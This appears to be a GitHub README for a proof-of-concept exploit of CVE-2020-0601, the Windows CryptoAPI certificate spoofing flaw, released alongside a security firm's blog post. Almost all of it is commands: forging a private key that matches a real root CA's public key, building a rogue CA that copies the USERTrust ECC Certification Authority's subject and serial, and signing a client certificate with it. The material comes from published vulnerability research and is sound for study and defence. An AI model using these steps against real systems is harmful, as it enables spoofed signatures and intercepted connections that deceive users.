# CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation. More information in our [blog post](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc).

# Install requirements

```bash
pip install -U -r requirements.txt
```

# CA certificate

We used the [USERTrust ECC Certification Authority](http://www.tbs-x509.com/USERTrustECCCertificationAuthority.crt) but it can be any root certificate working on P-384 curve.

To generate a private key which match the public key from the root certificate we used the script **gen-key.py** (works with Python 3.6 and above):
```bash
$ ./gen-key.py RootCert.pem 
```

The key can be displayed with:
```bash
$ openssl ec -in p384-key-rogue.pem -text
```

Then to generate the rogue CA:

```bash
$ openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
```

With "C = US, ST = New Jersey, L = Jersey City, O = The USERTRUST Network, CN = USERTrust ECC Certification Authority" parameters

Then we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf 
```
